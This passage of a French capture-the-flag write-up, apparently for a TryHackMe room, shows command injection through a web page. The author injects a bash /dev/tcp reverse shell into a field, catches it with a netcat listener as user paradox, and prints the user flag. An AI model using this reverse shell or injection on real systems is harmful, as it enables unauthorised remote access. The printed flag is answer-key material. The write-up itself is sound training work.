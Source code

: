 On se connecte.  

![page](./Task1-04.png)

On trouve une page qui permet de lance des commandes.  

```bash
tim@kali:/tmp/mnt$ nc -lnvp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute le port 1234 pour avoir un shell.   

Dans le champ de la page on un reverse shell : bash -c 'exec bash -i &>/dev/tcp/10.9.228.66/1234 <&1'   

```bash
tim@kali:/tmp/mnt$ nc -lnvp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.144.56.
Ncat: Connection from 10.10.144.56:40064.
bash: cannot set terminal process group (714): Inappropriate ioctl for device
bash: no job control in this shell
paradox@cchq:~$ 
```

On obtient un shell.   

**Paradox is nomming cookies**

```bash
paradox@cchq:~$ id
id
uid=1003(paradox) gid=1003(paradox) groups=1003(paradox)
paradox@cchq:~$ cd ~
cd ~
paradox@cchq:~$ ls
ls
CATapp
user.txt
paradox@cchq:~$ cat user.txt	
cat user.txt
THM{2dccd1ab3e03990aea77359831c85ca2}
```

